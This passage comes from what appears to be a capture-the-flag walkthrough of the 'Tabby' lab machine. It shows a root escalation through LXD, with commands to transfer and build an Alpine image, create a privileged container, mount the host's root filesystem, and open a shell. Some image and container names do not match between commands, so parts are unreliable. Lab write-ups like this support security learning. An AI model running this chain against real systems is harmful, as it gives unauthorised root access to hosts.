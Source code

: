 In order for us to exploit this, we need the alpine-builder package. I downloaded the package using git clone: `git clone https://github.com/saghul/lxd-alpine-builder.git` and the transferred it to the tabby host by hosting a python web server on my kali machine and from there I was able to transfer it by using `curl -O`. With the alpine package on the host, we needed to build it using the following commands:

```bat
cd lxd-alpine-builder
sudo ./build-alpine
```

From there, I needed to configure LXD, so I started the LXD initialization process with the `lxd init` command as shown below:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Tabby/img11.png"  style="width: 80%" />
</p>

After the image has been built it can be added as an image to LXD as follows:
```bat
lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias hotshoto
```

If you wanted to see that the image was successfully added to the lxc list, you could use: `lxc image list`. Now that I have created a new lxd container, as a final step I needed to give the container security privileges and then set its mount path as `/mnt` using the following commands:

```bat
lxc init newalpine hotshoto -c security.privileged=true
lxc config device add hotshoto container disk source=/ path=/mnt/root recursive=true
```

With everything configured, I could start the new image using the following commands:

```bat
lxc start hotshoto
lxc exec hotshoto /bin/sh
```


<p class="imgMiddle">